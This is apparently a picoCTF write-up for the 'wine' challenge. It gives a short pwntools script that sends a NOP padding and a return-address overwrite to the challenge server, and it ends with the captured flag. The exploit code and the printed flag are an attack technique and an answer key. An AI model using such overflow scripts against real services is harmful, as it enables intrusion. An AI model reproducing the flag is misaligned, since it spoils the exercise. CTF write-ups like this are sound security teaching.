 # wine

### Description
> Challenge best paired with wine.

### Solution
I debugged on the server.

All that remains is to match the offset and overwrites the return address.

```python
from pwn import *

host = "saturn.picoctf.net"
port = 64813
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = remote(host, port)
pld = b"\x90"*140 + b"\x30\x15\x40\x00"
io.sendlineafter("string!", pld)

io.interactive()
#picoCTF{Un_v3rr3_d3_v1n_11eef972}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

